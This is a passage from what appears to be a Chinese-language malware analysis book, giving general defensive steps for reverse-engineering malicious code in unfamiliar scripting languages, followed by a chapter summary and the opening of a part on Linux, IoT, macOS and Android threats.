可以使用多种编程语言来实现后台。不管是 PHP、Perl、Python 还是其他语言，你都需要正确识别编程语言，并检查它是否是一个现成的框架。这个任务的第一部分可以通过查看相应的文件扩展名来解决。第二部分通常可以通过配置文件或目录来找到所使用的框架名称。

安装相应的 IDE 并在其中加载项目将大大加速进一步的分析，因为这将有助于高效的静态和动态分析。

# 其他脚本语言

本章介绍了当今使用最广泛的编程语言的常见示例。但如果你遇到一些更为特殊的语言，且没有现成的逐步教程该如何处理呢？或者，如果某种新的脚本语言变得越来越流行，广泛应用于各类系统，并因此被恶意行为者滥用该怎么办？不用慌张——我们已经总结了一些思路，帮助你成功分析任何新的威胁。

## 从哪里开始

在分析新威胁时，您应该执行以下操作：

1.  确定编程语言。可以通过多种方式来完成，具体如下：

    +   查看使用的文件扩展名

    +   使用**file**工具

    +   在线搜索头部签名

    +   检查字符串，因为它们可能提供额外的线索。

1.  如果脚本需要特定的操作系统，确保你已设置好适当的虚拟机镜像。

如果脚本语言是编译型的，可以寻找如反编译器或反汇编器等工具，以便进行静态分析。

1.  如果代码没有被编译且已获取源代码，检查可用的最佳 IDE 或语法高亮工具。使用你偏好的支持调试的解决方案，使动态分析更加方便。

1.  查找关于如何阅读代码的手册——无论是原版手册还是与相应工具一起提供的帮助文件。此外，检查是否有可用的 API。

1.  如果代码是混淆的，可以尝试现有的反混淆工具（如果有的话）。总是可以使用代码美化工具和命名替换来使代码更具可读性。

1.  检查是否有可用的动态分析监视器或沙箱，这些工具能够在代码执行时记录所有关键功能。

1.  通常，先审查动态分析工具的输出，再转向静态分析，这样可以对至少部分功能有一个基本的了解。当你需要解密某些重要数据块，或想理解某段代码背后的逻辑时，应该使用动态分析。

一旦你能够分析代码，下一个重要步骤就是弄清楚该关注什么内容。

## 需要回答的问题

逆向工程不仅仅是一个工程任务——通常，它需要一定的研究和创造力来解决相应的挑战。

通常，分析时间会受到环境的限制。因此，要特别关注能够帮助回答报告中所需问题的功能。这部分可能比较棘手，因为如果没有全面查看，难以判断描述是否完整。搜索感兴趣功能的关键字，并检查它们的引用，应该是一个不错的起点。之后，可以检查是否有代码块被加密、编码或外部加载。保持标记准确将帮助你在整个项目中导航，并在必要时快速返回。

# 摘要

本章中，我们涵盖了多种脚本语言和文档宏，这些语言和宏通常被攻击者滥用。我们描述了恶意软件编写者在选择特定方法时的动机。此外，我们还探讨了如何解决每种语言特定挑战的现成方案，并总结了需要关注的功能。你还将深入了解多种工具，这些工具将大大加速分析过程。

最后，我们介绍了如何处理几乎任何脚本语言编写的恶意代码的通用方法，这些方法可能在你遇到的情况下会有所帮助。我们还讨论了高效分析恶意代码时需要遵循的行动顺序。

完成本章后，你将能够成功地对各种脚本进行静态和动态分析，绕过反汇编技术，并理解恶意软件的核心功能。

在 *第十一章*，*剖析 Linux 和 IoT 恶意软件* 中，我们将探讨针对各种基于 Linux 和物联网系统的威胁，学习如何分析这些威胁，并将如何延伸你从本章获得的部分知识。

# 第四部分：探索物联网及其他平台

本节主要关注非 Windows 平台，这些平台已逐渐成为恶意软件攻击的目标。通过阅读本节内容，你将理解其他 PC、移动设备和嵌入式系统面临的威胁背后的基本概念，并学习多种分析技术。

本节包含以下章节：

+   *第十一章**, 剖析 Linux 和 IoT 恶意软件*

+   *第十二章**, macOS 和 iOS 威胁概述*

+   *第十三章**, 分析 Android 恶意软件样本*
